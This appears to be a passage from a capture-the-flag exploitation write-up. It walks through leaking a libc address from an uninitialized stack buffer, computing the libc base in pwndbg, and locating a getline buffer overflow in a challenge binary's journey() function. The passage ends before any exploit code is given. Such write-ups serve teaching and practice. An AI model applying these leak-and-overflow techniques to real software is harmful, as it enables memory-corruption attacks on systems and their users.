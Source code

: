 The bug here is that the `age` buffer is not initialized with any data, meaning it might store junk and other addresses.

```c
0040277c      void age;
0040277c      read(0, &age, 0x20);
```

Knowing that, we can try to leak some useful addresses (libc). 

### Debugging 

Inside the debugger, we can see what lies in the address where we store the `age` input.

```gdb
pwndbg> x/20gx 0x7fffffffd930
0x7fffffffd930:	0x0a42424241414141	0x0000000000404220 // start of buffer
0x7fffffffd940:	0x00007fffffffd990	0x00007ffff7893bca // libc address
0x7fffffffd950:	0x2e78786362696c67	0x0000000000000110
0x7fffffffd960:	0x00007fffffffde58	0x00007ffff7a045c0
0x7fffffffd970:	0x0000000000000110	0x0000000000000110
0x7fffffffd980:	0x0000000000000001	0x0000000000404220
0x7fffffffd990:	0x00007fffffffd9e0	0x00007ffff7886a02
0x7fffffffd9a0:	0x0000000000012000	0x00007ffff7a02030
0x7fffffffd9b0:	0x0000000000400004	0x0000000000406080
0x7fffffffd9c0:	0x0000000000406088	0x0000000000000110
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x407000           0x428000 rw-p    21000      0 [heap]
►   0x7ffff7800000     0x7ffff7828000 r--p    28000      0 /home/Recruitment/challenge/glibc/libc.so.6
```

We see that there is a `libc` address after `24` bytes. So, if we enter `23` bytes and the `\n` character (24 in total), we can leak a `libc` address.  We can calculate the `libc base` be subtracting the offset.

```gdb
pwndbg> p/x 0x00007ffff7893bca-0x7ffff7800000
$1 = 0x93bca
```

Now that we have our `libc base`, we need to find the `Buffer Overflow` and the offset. As we saw from the program's interface, the overflow lies in the `journey()` function.

```c
0040298d  std::istream::__istream_type* journey()

0040298d  {
0040299d      flag = 3;
00402a33      std::operator<<<std::char_traits<char> >(std::ostream::operator<<(std::operator<<<std::char_traits<char> >(std::operator<<<std::char_traits<char> >(std::operator<<<char>(std::operator<<<std::char_traits<char> >(std::operator<<<std::char_traits<char> >(&std::cout, "\x1b[1;32m\n[!] The fate of the …"), "\x1b[1;35m")), "\x1b[1;32m"), &data_404400), std::endl<char>), "    We need you to tell us a bit…");
00402a38      int64_t vuln_buf;
00402a38      __builtin_memset(&vuln_buf, 0, 0x20);
00402a7b      return std::istream::getline(&std::cin, &vuln_buf, 0x2f);
0040298d  }
```
